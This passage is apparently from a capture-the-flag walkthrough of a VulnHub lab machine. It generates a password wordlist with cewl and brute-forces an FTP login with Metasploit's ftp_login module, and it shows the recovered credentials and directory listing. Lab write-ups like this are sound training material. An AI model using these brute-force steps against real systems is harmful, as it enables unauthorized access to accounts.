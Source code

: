 Viewing the page in a browser, we have a long page that looks copied from a blog. In the middle, however, we have a flag and a hint:
> Dolores is a user and passwd is in this page. Use some tools to generate passwd maybe.

This could be referring to either the `ftp` or the `admin.php` page. Visiting `admin.php`, we retrieve another flag in the comments. However, before we start wasting time breaking the page, we should enumerate more on the `ftp`. 

By connecting, we retrieve another flag:
{% highlight bash %}
$ ftp 192.168.56.105
Connected to 192.168.56.105.
220-<--flag: All my life, I've prided myself on being a survivor. But surviving is just another loop.-->
220 
{% endhighlight %}

Since we are connected, we can test an anonymous login and see that it is not enabled:
{% highlight bash %}
Name (192.168.56.105): anonymous
500 OOPS: vsftpd: refusing to run with writable root inside chroot()
{% endhighlight %}

It seems that either route we will need a wordlist. We can use `cewl` to generate one from the page, as per the hint:
{% highlight bash %}
$ cewl.rb -d 1 192.168.56.105 > wordlist.txt
{% endhighlight %}

We can start easy and use metasploit to brute force the ftp login:
{% highlight bash %}
msf5 > use auxiliary/scanner/ftp/ftp_login 

msf5 auxiliary(scanner/ftp/ftp_login) > set rhosts 192.168.56.105
RHOSTS => 192.168.56.105
msf5 auxiliary(scanner/ftp/ftp_login) > set USERNAME Dolores
USERNAME => Dolores
msf5 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE wordlist.txt
PASS_FILE => wordlist.txt
msf5 auxiliary(scanner/ftp/ftp_login) > run

[+] 192.168.56.105:21     - 192.168.56.105:21 - Login Successful: Dolores:loop
{% endhighlight %}

With the password, we can ftp in and view the directory:
{% highlight bash %}
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-x---    2 1002     1002         4096 Apr 16 17:28 .
dr-xr-x---    2 1002     1002         4096 Apr 16 17:28 ..
-rw-r--r--    1 1002     1002          220 Apr 04  2018 .bash_logout
-rw-r--r--    1 1002     1002         3771 Apr 04  2018 .bashrc
-rw-r--r--    1 1002     1002          807 Apr 04  2018 .profile
-rw-r--r--    1 1002     1002         8980 Apr 16  2018 examples.desktop
-rw-r--r--    1 1000     1000        51862 Apr 16 17:18 flag.pdf
-rwxr-xr-x    1 0        0            8560 Apr 15 19:01 hackme.o
226 Directory send OK.
{% endhighlight %}


[vulnhub]: https://www.vulnhub.com/entry/westw0rld-1,309i/
[logrotate]: https://www.exploit-db.com/exploits/46676